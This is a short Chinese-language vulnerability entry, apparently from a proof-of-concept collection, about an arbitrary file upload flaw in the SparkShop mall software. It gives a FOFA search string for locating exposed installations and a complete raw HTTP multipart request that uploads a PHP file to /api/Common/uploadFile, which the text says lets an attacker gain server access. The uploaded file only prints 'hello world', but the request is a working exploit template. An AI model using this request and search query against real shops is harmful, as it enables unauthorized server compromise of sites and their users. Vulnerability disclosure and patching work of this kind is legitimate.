 # 南京星源图科技SparkShop存在任意文件上传漏洞

南京星源图科技SparkShop商城存在任意文件上传漏洞，攻击者可获取服务器权限。

## fofa

```yaml
"SparkShop"
```

## poc

```java
POST /api/Common/uploadFile HTTP/2
Host: 
Cache-Control: max-age=0
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=0, i
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryj7OlOPiiukkdktZR
Content-Length: 178

------WebKitFormBoundaryj7OlOPiiukkdktZR
Content-Disposition: form-data; name="file";filename="1.php"

<?php echo"hello world";?>
------WebKitFormBoundaryj7OlOPiiukkdktZR--
```



## 漏洞来源

- https://mp.weixin.qq.com/s/xrdAT9NE6Z5s7OoiJdnd-w